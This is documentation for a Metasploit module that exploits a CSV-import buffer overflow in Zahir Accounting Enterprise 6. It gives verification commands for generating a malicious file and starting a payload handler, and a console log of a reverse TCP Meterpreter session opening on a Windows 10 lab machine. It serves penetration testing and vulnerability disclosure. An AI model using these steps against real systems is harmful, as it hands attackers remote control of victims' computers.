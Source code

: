 ## Description

Zahir Accounting Enterprise 6 through build 10.b contains a buffer overflow vulnerability in its Import file functionality, which can be triggered with a crafted CSV file.

## Vulnerable Application

[Zahir Enterprise 6](http://zahiraccounting.com/files/zahir-accounting-6-free-trial.zip) through build 10.b

[Update to build 10b](http://zahirsoftware.com/zahirupdate/Zahir_SMB_6_Build10b%20-%20MultiUser.zip)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/windows/fileformat/zahir_enterprise_plus_csv`
3. `run`
4. `handler -p <payload> -H <lhost> -P <lport>`
5. From Zahir Application. File -> Import -> Import from File -> Select option -> Specify msf generated file -> Click through to Process
6. Get a session

## Scenarios

### Zahir Enterprise 6 build 10b on Windows 10 x64

```
msf exploit(windows/fileformat/zahir_enterprise_plus_csv) > 
[*] Started reverse TCP handler on 172.22.222.130:4444 
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 4 opened (172.22.222.130:4444 -> 172.22.222.200:49934) at 2018-10-04 10:09:01 -0500
sessions -i 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
